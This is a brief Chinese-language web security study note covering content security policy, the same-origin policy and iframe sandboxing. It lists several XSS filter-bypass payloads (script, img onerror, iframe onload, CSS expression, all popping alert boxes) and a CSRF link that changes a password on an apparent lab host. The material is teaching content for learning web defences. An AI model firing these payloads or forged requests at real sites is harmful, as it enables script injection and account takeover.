 ### 内容安全策略（CSP）
内容安全策略   (CSP) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 (XSS) 和数据注入攻击等

### Web浏览器安全策略
* CSP
* 安全沙箱 H5新增特性，使用标签``<iframe>``
* 同源策略 最基本的安全策略，由网景提出，同源指的是域名、协议、端口相同




## XSS
### 绕过方法
```
<script>alert("test")</script>

<img src="javascript:alert('XSS')">

<img src="#" onerror=alert(/跨站/)></img>

<img src="javascript:alert(/xss/)">

<iframe/onload=alert(/insight-labs/)>

<div style=”width:expression(alert('xsser'))″>xsser</div>
```

### CSRF(cross site request forgery)
* 直接生成包含url参数的欺骗链接，如在任何未验证的情况下修改用户密码：http://10.1.1.174/vulnerabilities/csrf/**?password_new=123&password_conf=123&Change=Change#**
